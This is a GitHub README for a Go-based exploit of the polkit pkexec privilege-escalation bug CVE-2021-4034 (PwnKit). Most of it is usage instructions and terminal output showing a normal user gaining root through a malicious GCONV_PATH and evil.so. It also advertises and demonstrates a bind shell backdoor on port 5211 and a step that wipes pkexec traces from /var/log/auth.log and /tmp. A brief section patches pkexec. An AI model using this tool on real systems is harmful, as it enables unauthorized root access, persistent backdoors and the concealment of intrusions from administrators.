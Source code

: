 # PwnKit-go-LPE (CVE-2021-4034)

A golang based exp for CVE-2021-4034 dubbed pwnkit

``` bash
@@@@@@@   @@@  @@@  @@@  @@@  @@@  @@@  @@@  @@@  @@@@@@@              @@@@@@@@   @@@@@@   
@@@@@@@@  @@@  @@@  @@@  @@@@ @@@  @@@  @@@  @@@  @@@@@@@             @@@@@@@@@  @@@@@@@@  
@@!  @@@  @@!  @@!  @@!  @@!@!@@@  @@!  !@@  @@!    @@!               !@@        @@!  @@@  
!@!  @!@  !@!  !@!  !@!  !@!!@!@!  !@!  @!!  !@!    !@!               !@!        !@!  @!@  
@!@@!@!   @!!  !!@  @!@  @!@ !!@!  @!@@!@!   !!@    @!!    @!@!@!@!@  !@! @!@!@  @!@  !@!  
!!@!!!    !@!  !!!  !@!  !@!  !!!  !!@!!!    !!!    !!!    !!!@!@!!!  !!! !!@!!  !@!  !!!  
!!:       !!:  !!:  !!:  !!:  !!!  !!: :!!   !!:    !!:               :!!   !!:  !!:  !!!  
:!:       :!:  :!:  :!:  :!:  !:!  :!:  !:!  :!:    :!:               :!:   !::  :!:  !:!  
 ::        :::: :: :::    ::   ::   ::  :::   ::     ::                ::: ::::  ::::: ::  
 :          :: :  : :    ::    :    :   :::  :       :                 :: :: :    : :  :   
                                                                                           
                                                                        By lUc1f3r11
```

# New features

 - dynamically pkexec path by just adding -pk arg
 - bind shell backdoor
 - /var/log/auth.log and pkexec tmp files clean
 - written in pure go and using upx compressed volume

## build

 - ![](./img/1.jpg)

# Enjoy

1. run the pwnkit file to get root first

``` bash
┌──(kali㉿kali)-[/root/pwnkit/CVE-2021-4034-go]
└─$ id      
uid=1000(kali) gid=1000(kali) groups=1000(kali),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),119(wireshark),122(bluetooth),134(scanner),142(kaboxer)
                                                                                                                                    
┌──(kali㉿kali)-[/root/pwnkit/CVE-2021-4034-go]
└─$ whoami
kali
                                                                                                                                    
┌──(kali㉿kali)-[/root/pwnkit/CVE-2021-4034-go]
└─$ ./pwnkit   
@@@@@@@   @@@  @@@  @@@  @@@  @@@  @@@  @@@  @@@  @@@@@@@              @@@@@@@@   @@@@@@   
 @@@@@@@@  @@@  @@@  @@@  @@@@ @@@  @@@  @@@  @@@  @@@@@@@             @@@@@@@@@  @@@@@@@@  
 @@!  @@@  @@!  @@!  @@!  @@!@!@@@  @@!  !@@  @@!    @@!               !@@        @@!  @@@  
 !@!  @!@  !@!  !@!  !@!  !@!!@!@!  !@!  @!!  !@!    !@!               !@!        !@!  @!@  
 @!@@!@!   @!!  !!@  @!@  @!@ !!@!  @!@@!@!   !!@    @!!    @!@!@!@!@  !@! @!@!@  @!@  !@!  
 !!@!!!    !@!  !!!  !@!  !@!  !!!  !!@!!!    !!!    !!!    !!!@!@!!!  !!! !!@!!  !@!  !!!  
 !!:       !!:  !!:  !!:  !!:  !!!  !!: :!!   !!:    !!:               :!!   !!:  !!:  !!!  
 :!:       :!:  :!:  :!:  :!:  !:!  :!:  !:!  :!:    :!:               :!:   !::  :!:  !:!  
  ::        :::: :: :::    ::   ::   ::  :::   ::     ::                ::: ::::  ::::: ::  
  :          :: :  : :    ::    :    :   :::  :       :                 :: :: :    : :  :   
By lUc1f3r11
[+] Beginning exploit...
[+] mkdir 0755 GCONV_PATH=.
[+] chmod 0755 GCONV_PATH=./evildir
[+] mkdir 0755 evildir
[+] writefile 0755 evildir/gconv-modules
[+] writefile 0755 evildir/evil.so
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),119(wireshark),122(bluetooth),134(scanner),142(kaboxer),1000(kali)
# whoami
root
```

 - ![](./img/2.jpg)

see the tmp file and log file exists

 - ![](./img/3.jpg)

2. run bindshell file to clean /var/log/auth.log and pkexec tmp files and open a tcp bind shell

``` bash
# ./bindshell &
# [+] setting command exec path env
[+] cleaning /tmp/pkexec* files
[+] cleaning /var/log/auth.log pkexec logs
[+] cleaning /tmp/al
[+] open a bind tcp shell on port 5211

#
```

 - ![](./img/4.jpg)

 - ![](./img/5.jpg)

# vuln pkexec file and patched pkexec file avaliable to make your debug easier

 - [vuln pkexec](./pkexec)
 - [patched pkexec](./pkexec-good)

# vuln repair

``` bash
┌──(root💀kali)-[~/pwnkit]
└─# cp pkexec-good /usr/bin/pkexec
┌──(kali㉿kali)-[/root/pwnkit/CVE-2021-4034-go]
└─$ ./pwnkit
@@@@@@@   @@@  @@@  @@@  @@@  @@@  @@@  @@@  @@@  @@@@@@@              @@@@@@@@   @@@@@@   
 @@@@@@@@  @@@  @@@  @@@  @@@@ @@@  @@@  @@@  @@@  @@@@@@@             @@@@@@@@@  @@@@@@@@  
 @@!  @@@  @@!  @@!  @@!  @@!@!@@@  @@!  !@@  @@!    @@!               !@@        @@!  @@@  
 !@!  @!@  !@!  !@!  !@!  !@!!@!@!  !@!  @!!  !@!    !@!               !@!        !@!  @!@  
 @!@@!@!   @!!  !!@  @!@  @!@ !!@!  @!@@!@!   !!@    @!!    @!@!@!@!@  !@! @!@!@  @!@  !@!  
 !!@!!!    !@!  !!!  !@!  !@!  !!!  !!@!!!    !!!    !!!    !!!@!@!!!  !!! !!@!!  !@!  !!!  
 !!:       !!:  !!:  !!:  !!:  !!!  !!: :!!   !!:    !!:               :!!   !!:  !!:  !!!  
 :!:       :!:  :!:  :!:  :!:  !:!  :!:  !:!  :!:    :!:               :!:   !::  :!:  !:!  
  ::        :::: :: :::    ::   ::   ::  :::   ::     ::                ::: ::::  ::::: ::  
  :          :: :  : :    ::    :    :   :::  :       :                 :: :: :    : :  :   
By lUc1f3r11
[+] Beginning exploit...
[+] mkdir 0755 GCONV_PATH=.
[+] chmod 0755 GCONV_PATH=./evildir
[+] mkdir 0755 evildir
[+] writefile 0755 evildir/gconv-modules
[+] writefile 0755 evildir/evil.so
pkexec --version |
       --help |
       --disable-internal-agent |
       [--user username] PROGRAM [ARGUMENTS...]

See the pkexec manual page for more details.
```

# Reference

 - [pkwner](https://github.com/kimusan/pkwner)
 - [chenaotian/CVE-2021-4034](https://github.com/chenaotian/CVE-2021-4034)
 - [The tale of CVE-2021-4034 AKA PwnKit, The 13-Year Old Bug](https://www.hackthebox.com/blog/The-tale-of-CVE-2021-4034-AKA-PwnKit-The-13-Year-Old-Bug)
 - [PwnKit: Local Privilege Escalation Vulnerability Discovered in polkit’s pkexec (CVE-2021-4034)](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034)
 - [An00bRektn/CVE-2021-4034](https://github.com/An00bRektn/CVE-2021-4034)
 - [dzonerzy/poc-cve-2021-4034](https://github.com/dzonerzy/poc-cve-2021-4034)